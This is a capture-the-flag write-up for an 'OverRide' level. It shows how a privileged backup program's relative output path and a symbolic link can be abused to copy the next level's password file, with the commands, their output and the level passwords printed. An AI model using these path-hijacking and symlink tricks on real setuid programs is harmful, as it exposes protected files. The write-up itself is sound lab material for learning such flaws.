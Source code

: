 # Hijacking relative path / Exploit symbolic link

```sh
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level08
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level08@192.168.56.101's password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program opens a file and creates its backup into `/home/users/level08/backups` by writing byte per byte.

The issue is that `./backups/` folder name is used as relative path. Relative path change depending on the working directory’s of the current location.

So the relative path can be hijacked by changing working directory to `/tmp` and creating a new `./backups/` folder containing absolute path of `.pass` of `level09`.

Other way is to create a symbolic link to `/home/users/level09/.pass` and pass to as argument to the binary.

# Exploit
By creating new `./backups/` folder in `/tmp`
```sh
level08@OverRide:/tmp$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
With symbolic link
```sh
level08@OverRide:~$ chmod +rwx .
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
